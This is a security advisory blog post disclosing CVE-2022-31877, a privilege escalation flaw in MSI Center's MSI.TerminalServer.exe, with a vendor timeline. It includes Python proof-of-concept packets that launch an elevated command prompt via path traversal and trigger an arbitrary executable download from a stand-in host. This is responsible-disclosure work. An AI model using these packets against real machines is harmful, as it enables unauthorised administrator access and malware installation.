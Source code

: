 ```yaml
---
layout: post
title:  "CVE-2022-31877: Privilege Escalation in MSI Center's MSI.TerminalServer.exe"
date:   2022-07-08 21:00:00 +0200
categories: security
---
```


# General
- Affected product: MSI Center by [Micro-Star Int'l Co., Ltd.](https://msi.com)
- Affected version: < 1.0.45.0, e.g. 1.0.41.0
- [CVE-2022-31877](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-31877)
- Summary: Missing input validation and missing authentication allow attackers with the ability to connect to TCP/IP ports on `localhost:26822` (e.g. any low-privileged user space process) to download and/or launch arbitraty executables with elevated privileges.

# Description
MSI Center, a tool suite provided by MSI to configure and manage MSI mainboards, includes an executable `MSI.TerminalServer.exe` which is installed as a privileged service by default and allows incoming TCP/IP connections on `localhost:26822`. Via the TCP/IP channel, in version 1.0.41.0, it accepts several JSON-formatted command packets without any authentication, including commands which download files from the web and launch executables with elevated privileges.

While these commands are meant to download and install updates of MSI Center, missing authentication allows attackers to trigger a download of arbitrary files form the web to the local file system. Missing input validation enables attackers to launch arbitrary executables, including the downloaded ones, with elevated permissions by employing path traversal techniques.

Combined, these vulnerabilities could, for example, serve as an entry point for user-space applications (like email attachments) to fully compromise a system, including installation of malware or ransomware.

# Proof of Concept
The following simple Python example will start an elevated Administrator command prompt when executed on a machine running MSI Center.
{% highlight python %}
import socket
import json

packet = {
    "Type": "RunSetupModule",
    "Content": json.dumps({
        "Dependent": [{
            "File": "..\\..\\..\\Windows\\system32\\cmd.exe"
        }],
        "DependentIndex": 0,
        "ProgressStatus": 21
    })
}

with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
    s.connect(('localhost', 26822))
    s.sendall(json.dumps(packet).encode('utf8'))
{% endhighlight %}

Similarly, an arbitray file download can be triggered via the `DownloadModule` packet type:
{% highlight python %}
packet = {
    "Type": "DownloadModule",
    "Content": json.dumps({
        "ProcessURL": "https://example.com/foo.exe",
        "Dependent": [{
            "File": "foo.exe"
        }],
        "DependentIndex": 0
    })
}
{% endhighlight %}

# Timeline
- *May 19, 2022:* Contacted vendor with a detailed report and PoC
- *May 25, 2022:* Issue partially confirmed by vendor
- *May 25, 2022:* Supplied more details including screencast of PoC
- *May 27, 2022:* Vendor confirms they are working on a fix
- *June 3, 2022:* CVE number assigned
- *June 3, 2022:* Vendor reports the issue is fixed in MSI.TerminalServer.exe 3.2022.0527.01 by introducing CA signature validation before launching executables
- *July 5, 2022:* I was able to update to a recent MSI Center version and confirm the issue has been fixed (i.e. the PoC is no longer working)
- *July 8, 2022:* Public disclosure

# Thank you and side note
I would like to thank MSI for quickly fixing this issue. However, it was difficult to find a contact in MSI to report this issue. I would like to encourage MSI to establish and publish a process to report security vulnerabilities in their products and add an easier way to contact security, without going through various tiers of technical support first. A first step could be to set up a dedicated email address and a `/.well-known/security.txt` file for easily finding contact information.
